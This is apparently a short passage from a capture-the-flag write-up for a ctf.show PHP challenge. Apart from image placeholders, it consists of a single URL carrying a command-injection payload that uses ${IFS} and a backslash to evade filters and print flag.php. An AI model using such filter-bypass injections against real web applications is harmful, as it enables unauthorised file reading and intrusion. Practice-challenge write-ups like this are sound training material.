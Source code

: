 <figure><img src="../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
http://22058a52-1ccb-4cdd-b345-585108f54e44.challenge.ctf.show/?c=nl${IFS}fla\g.php||
```

<figure><img src="../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

